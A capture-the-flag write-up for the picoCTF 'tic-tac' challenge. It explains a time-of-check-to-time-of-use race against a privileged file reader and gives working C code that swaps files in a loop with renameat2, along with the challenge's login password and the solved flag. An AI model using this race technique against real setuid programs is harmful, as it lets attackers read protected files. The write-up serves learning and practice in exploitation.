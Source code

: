 # tic-tac

**200 points**

AUTHOR: JUNIAS BONOU

Description
Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.
ssh to saturn.picoctf.net:50591, and run the binary named "txtreader" once connected. Login as ctf-player with the password, d8819d45

*Note:* This challenge launches an instance on demand.

___

I don't want to curse but I hate this challenge.

I tried every possible idea with this symbolic linking script that is the only one on the internet and nothing else.

```cpp
#include <stdio.h>
#include<unistd.h>
#include <string.h>

int main(int argc, char * argv[]){
  unlink(argv[1]);
  symlink("/home/ctf-player/flag.txt",argv[1]);
}
```

But this is just **NOT FAST ENOUGH APPERANTLY**

Thank god `LiveOverflow` exists because after scraping the web with the utmost of `sus` google searches that probably put me on a list I found his video, directly solving this question [https://www.youtube.com/watch?v=5g137gsB9Wk&ab_channel=LiveOverflow](https://www.youtube.com/watch?v=5g137gsB9Wk&ab_channel=LiveOverflow) (you could skip this writeup and watch his video).

My explanation:

We want to create race conditions, such that the command execution would be like so:

```
--> Be a root file
--> Get checked by the programs if:
        // Check the file's owner.
        if (statbuf.st_uid != getuid()) {
            std::cerr << "Error: you don't own this file" << std::endl;
            return 1;
        }
--> Become readable with symbolic link
--> Get opened and read by the program:
        // Read the contents of the file.
        if (file.is_open()) {
            std::string line;
            while (getline(file, line)) {
            std::cout << line << std::endl;
            }
        } else {
            std::cerr << "Error: Could not open file" << std::endl;
            return 1;
        }
```

Instead of the code I showed above, there is a faster built in way in linux that this hidden from the internet does:

```cpp
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

// source https://github.com/sroettger/35c3ctf_chals/blob/master/logrotate/exploit/rename.c
int main(int argc, char *argv[]) {
  while (1) {
    syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
  }
  return 0;
}
```

Running this script on two files, one with symbolic link to the flag and another user-made file tricks the reader program when it tried to read the symbolic-link file to print out the flag if you're lucky (just a few reruns needed).

And so:

> picoCTF{ToctoU_!s_3a5y_5748402c}
